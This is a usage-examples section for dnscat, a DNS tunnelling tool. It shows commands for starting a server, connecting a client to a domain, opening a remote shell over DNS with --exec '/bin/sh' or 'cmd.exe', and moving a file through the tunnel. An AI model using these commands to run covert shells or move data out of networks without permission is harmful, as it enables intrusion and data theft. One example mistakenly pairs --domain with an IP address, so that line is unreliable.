 ## Examples

### Simple server {#simple_server}

As discussed above, a dnscat server can be started using the \--listen argument:

    dnscat --listen

Or, if multiple clients will connect, \--multi can be given:

    dnscat --listen --multi

### Simple client {#simple_client}

To start a dnscat client with an authoritative domain, use the following command:

    dnscat --domain &lt;domain&gt;

For example:

    dnscat --domain skullseclabs.org

And to start it without an authoritative domain, use this:

    dnscat --dns &lt;dnscat_server_address&gt;

For example:

    dnscat --domain 1.2.4.4

For more options, use \--help:

    dnscat --help

### Remote shell {#remote_shell}

Typically, to tunnel a shell over DNS, you\'re going to want to run a standard server as before:

    dnscat --listen

And run the shell on the client side:

Linux/BSD:

    dnscat --domain skullseclabs.org --exec "/bin/sh"

Windows:

    dnscat.exe --domain skullseclabs.org --exec "cmd.exe"

On the server, you can now type commands and they\'ll run on the client side.

### Transfer a file {#transfer_a_file}

You can transfer a file to the client from the server like this:

    Server:
    dnscat --listen > file.out

    Client:
    dnscat --domain <domain> < file.in
